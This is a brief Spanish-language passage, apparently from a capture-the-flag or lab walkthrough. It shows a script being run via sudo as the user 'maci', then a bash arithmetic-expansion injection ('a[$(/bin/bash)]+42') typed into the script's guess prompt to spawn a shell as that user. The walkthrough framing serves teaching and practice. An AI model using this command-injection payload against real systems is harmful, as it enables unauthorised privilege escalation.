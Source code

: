 Ahora intentaremos inyectar comandos:
```bash
sudo -u maci /home/maci/script.sh 
```

Ahora inyectamos el comando para migrar al usuario **maci**
```bash
Adivina: a[$(/bin/bash)]+42
```
